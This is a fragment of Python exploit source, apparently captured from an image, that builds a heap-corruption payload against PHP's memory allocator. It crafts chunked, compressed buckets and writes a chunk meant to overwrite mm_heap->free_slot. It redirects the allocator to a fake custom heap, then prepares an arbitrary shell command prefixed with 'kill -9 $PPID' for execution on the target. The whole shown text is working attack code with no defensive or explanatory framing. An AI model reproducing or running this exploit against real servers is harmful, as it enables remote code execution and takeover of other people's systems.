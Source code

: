 ~~~ python
        step3_overflow = chunked_chunk(step3_overflow)
        step3_overflow = chunked_chunk(step3_overflow)
        step3_overflow = chunked_chunk(step3_overflow)
        step3_overflow = compressed_bucket(step3_overflow)

        step4_size = CS
        step4 = b"=00" + b"\x00" * (step4_size - 1)
        step4 = chunked_chunk(step4)
        step4 = chunked_chunk(step4)
        step4 = chunked_chunk(step4)
        step4 = compressed_bucket(step4)

        # This chunk will eventually overwrite mm_heap->free_slot
        # it is actually allocated 0x10 bytes BEFORE it, thus the two filler values
        step4_pwn = ptr_bucket(
            0x200000,
            0,
            # free_slot
            0,
            0,
            ADDR_CUSTOM_HEAP,  # 0x18
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            ADDR_HEAP,  # 0x140
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            size=CS,
        )

        step4_custom_heap = ptr_bucket(
            ADDR_EMALLOC, ADDR_EFREE, ADDR_EREALLOC, size=0x18
        )

        step4_use_custom_heap_size = 0x140

        COMMAND = self.command
        COMMAND = f"kill -9 $PPID; {COMMAND}"
        if self.sleep:
            COMMAND = f"sleep {self.sleep}; {COMMAND}"
        COMMAND = COMMAND.encode() + b"\x00"

~~~